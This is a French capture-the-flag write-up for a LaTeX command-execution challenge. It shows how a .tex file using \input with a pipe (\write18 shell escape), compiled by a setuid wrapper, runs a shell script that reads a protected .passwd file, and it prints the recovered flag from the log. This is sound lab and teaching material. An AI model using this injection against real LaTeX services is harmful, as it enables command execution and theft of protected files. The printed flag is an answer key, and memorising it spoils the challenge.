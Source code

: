 # LaTeX - Execution de commande

## 20 Points

### Et si j’écrivais 18 fois ?

### Énoncé

Exécutez des commandes pour trouver le flag !

## Résolution

L'objectif est de réussir à afficher le contenu du fichier .passwd qui se trouve dans un dossier qui lui aussi se trouve dans le dossier flag_is_here.

```
app-script-ch24@challenge02:/challenge/app-script/ch24$mkdir /tmp/thibault

app-script-ch24@challenge02:/challenge/app-script/ch24$vim /tmp/thibault/main.tex
```
main.tex:
```latex
\documentclass{article}
\begin{document}
\input{|"/tmp/thibault/main.sh"}
\end{document}
```
```Bash
app-script-ch24@challenge02:/challenge/app-script/ch24$vim /tmp/thibault/main.sh
```

```Bash
cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd
```

```
app-script-ch24@challenge02:/challenge/app-script/ch24$./setuid-wrapper /tmp/thibault/main.tex

[+] Compilation ...
[!] Compilation error, your logs : /tmp/tmp.VtoBdYzWgT/main.log
````

```
app-script-ch24@challenge02:/challenge/app-script/ch24$ cat /tmp/tmp.VtoBdYzWgT/main.log

This is pdfTeX, Version 3.14159265-2.6-1.40.18 (TeX Live 2017/Debian) (preloaded format=pdflatex 2023.6.1)  10 JAN 2024 16:59

entering extended mode

\write18 enabled.

%&-line parsing enabled.

[...]

(|/tmp/thibault/main.sh

! Missing $ inserted.

<inserted text>

$

l.1 LaTeX_
    
    wr1t3_18_a_us3ful_c0mm4nd_3x3cut10n*

Here is how much of TeX's memory you used:

202 strings out of 494923

[...]
```

On trouve donc le contenu du fichier dans le fichier de log:

Flag = **LaTeX_wr1t3_18_a_us3ful_c0mm4nd_3x3cut10n**
